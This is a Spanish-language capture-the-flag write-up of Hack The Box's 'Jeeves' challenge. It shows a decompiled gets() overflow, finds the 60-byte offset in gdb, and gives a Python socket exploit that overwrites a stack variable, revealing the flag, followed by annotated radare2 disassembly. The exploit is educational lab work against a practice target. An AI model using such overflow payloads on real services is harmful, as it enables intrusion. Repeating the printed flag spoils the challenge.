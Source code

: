 # Jeeves
---------------------------
# Part 1: Probando el programa

Descargamos el binario, le damos permisos de ejecucíon y lo ejecutamos:
```console
└─$ ./jeeves
Hello, good sir!
May I have your name? cucuxii
Hello cucuxii, hope you have a good day!
```

Sin abrir el binario parece que mete el nombre en una variable y luego lo printea. ¿Se puede acontecer un
buffer overflow?

```console
└─$ ./jeeves
Hello, good sir!
May I have your name? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
zsh: segmentation fault  ./jeeves

└─$ python3 -c "print('A'*74)" | ./jeeves 
Hello, good sir!...
zsh: segmentation fault  ./jeeves
```
Pero aquí no hay que manipular el RIP sino sobreescribir una varaible...

------------------------
Part 2: Leyendo su código

Si abrimos el programa con el ghidra y cambiando los nombres de varaibles:
```c
undefined8 main(void) {
  char nombre [44];
  int archivo;
  void *contenido;
  int cambiame;
  
  cambiame = L'\xdeadc0d3';
  printf("Hello, good sir!\nMay I have your name? ");
  gets(nombre);
  printf("Hello %s, hope you have a good day!\n",nombre);
  if (cambiame == 0x1337bab3) {
    contenido = malloc(0x100);
    archivo = open("flag.txt",0);
    read(archivo,contenido,0x100);
    printf("Pleased to make your acquaintance. Here\'s a small gift: %s\n",contenido);
    close(archivo);
  } return 0;
}
```

Es decir si cabmiame es "0x1337bab3" nos printea la flag, pero nos lo pone como xdeadc0d3 y solo podemos manipular
"nombre"... Se cambiame está despues de nombre podriamos hacer que nombre fuera tan largo que sobrepasara su 
buffer de 44 bytes para sobreescribir "cambiame"

---------------------------------
# Part 3: Destripandolo con gdb

```console
└─$ gdb ./jeeves
gef➤  disas main:
	(...)
	0x00005555555551f5 <+12>:	mov    DWORD PTR [rbp-0x4],0xdeadc0d3
  	(...)
	0x0000555555555236 <+77>:   cmp    DWORD PTR [rbp-0x4],0x1337bab3
```

Si hacemos un breakpoint cuando compara:
```
gef➤  b *0x0000555555555236
gef➤  r
May I have your name? AAAA
gef➤  x/40x $rsp
0x7fffffffdf40:	0x41414141	0x00000000	0x00000000	0x00000000
0x7fffffffdf50:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffdf60:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffdf70:	0x00000000	0x00000000	0x00000000	0xdeadc0d3

gef➤  x/a $rbp-0x4
0x7fffffffdf7c:	0x1deadc0d3 # Encontramos el valor que nos decian

gef➤  p 0x7fffffffdf7c - 0x7fffffffdf40
$4 = 0x3c (60)
```
La variable  a 60 bytes del rsp (de donde empezamos a escribir)

-----------------------------------
# Part 4: Desarrollando un exploit

Tenemos que mandar 60 "A"s + "0x1337bab3" (\xb3\xba\x37\x13 en bytes little endian)
```python
import socket

con = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
con.connect(("165.227.231.233", 32634))
payload = b"A"*60 + b"\xb3\xba\x37\x13\n" 
con.send(payload)
print(con.recv(1024))
```
Tras la data hay un "\n" que se traduce como Enter (que es lo que haces en el programa cuando acabas de poner
el nombre)

```console
└─$ python3 exploit.py 
b"Hello, good sir!\nMay I have your name? Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xb3\xba7\x13, hope you have a good day!\nPleased to make your acquaintance. Here's a small gift: HTB{w3lc0me_t0_lAnd_0f_pwn_&_pa1n!}\n\n"
```
------------------------------------------

# Extra: leyendo insutrcciones en codigo ensablador

Podriamos abrir el codigo en gdb pero prefiero radare2
```
int main (int argc, char **argv, char **envp);
	var char *s @ rbp-0x40;   # Donde mete el nombre
	var void *fildes @ rbp-0x14; # ???
	var char *buf @ rbp-0x10; #    ???
	var uint32_t var_4h @ rbp-0x4  ???

	# Crea la pila ->  [push rbp, mov rbp, rsp, sub rsp, 0x40]
    # mov dword [var_4h], 0xdeadc0d3  ## ??

	# Mete en RDI esta frase para pasarsela a printf()
	[lea rdi, str.Hello__good_sir__nMay_I_have_your_name__ mov eax, 0, call sym.imp.print]
	
	# Le pasa a gets un array de caracteres vacio (varaible nombre) mediante RDI
	[lea rax, [s], mov rdi, rax(char *s), mov eax, 0, call sym.imp.gets # char *gets(char *s)]
	
	# Vuelve a meter en RDI una cadena para printear
    [lea rax,[s],mov rsi,rax, lea rdi, str.Hello__s__hope_you_have_a_good_day__n, mov eax, 0,call sym.imp.printf]
	
	# Printea lo que estás escribiendo
	[mov eax, 0  call sym.imp.printf]

# Compara lo que hay en la varaible 4h con "0x1337bab3"
	# cmp dword [var_4h], 0x1337bab3
	# Si var_4h no es igual salta a 0x12a8 (mov eax, 0, ret, leave)
	# Si var_4h si es igual a esa cadena:
		[mov edi, 0x100, call sym.imp.malloc]  # void *malloc(size_t size)
		[mov qword [buf], rax, mov esi, 0, lea rdi, str.flag.txt]  # const char *path = "flag.txt"
		[mov eax, 0, call sym.imp.open  # 						   # open(path)
		[mov dword [fildes], eax, mov rcx, qword [buf], mov eax, dword [fildes]
		[mov edx, 0x100 (size_t nbyte), mov rsi, rcx (*buf), mov edi, eax (fildes), mov eax, 0, call sym.imp.read
		
		# contenido = read(fildes, void *buf, size_t nbyte)
		[mov rax, qword [buf], mov rsi, rax]
		[ea rdi, str.Pleased_to_make_your_acquaintance._Heres_a_small_gift: mov eax, 0, call sym.imp.printf]
		
		# printf(Pleased_to_make_your_acquaintance._Heres_a_small_gift -> contenido)
		[mov eax, 0, call sym.imp.printf]   (int printf(const char *format))
		[mov eax, dword [fildes], mov edi, eax, mov eax, 0, call sym.imp.close] # int close(int fildes)
```

Vemos claramente que en 64 bytes todos los argumentos de una funcion los pasa al registro  RDI (y si hay mas 
a RSI,RDX...) y luego llama a la funcion que lee de dicho registro/s. Esto se llama "calling conventions" y
es la manera que tienen los programas de 64 bits de operar

